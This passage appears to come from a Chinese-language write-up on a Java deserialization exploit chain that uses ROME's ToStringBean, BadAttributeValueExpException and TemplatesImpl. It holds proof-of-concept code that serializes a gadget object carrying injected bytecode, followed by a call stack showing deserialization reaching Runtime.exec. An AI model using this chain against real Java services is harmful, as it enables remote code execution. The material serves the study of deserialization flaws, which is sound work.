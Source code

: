 ```bash
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);

        // 创建ToStringBean对象
        ToStringBean toStringBean = new ToStringBean(Templates.class, templateImpl);

        // 创建BadAttributeValueExpException对象
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFiled(badAttributeValueExpException, "val", toStringBean);

        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("BadAttrExp.bin"));
        objectOutputStream.writeObject(badAttributeValueExpException);
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("BadAttrExp.bin"));
        objectInputStream.readObject();
        objectInputStream.close();
    }

    public static void setFiled(Object o, String fieldname, Object value) throws Exception {
        Field field = o.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }
}
```

### 函数调用栈

```bash
exec:347, Runtime (java.lang)
<clinit>:-1, cccc
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
newInstance:442, Class (java.lang)
getTransletInstance:455, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
newTransformer:486, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
toString:137, ToStringBean (com.sun.syndication.feed.impl)
toString:116, ToStringBean (com.sun.syndication.feed.impl)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
```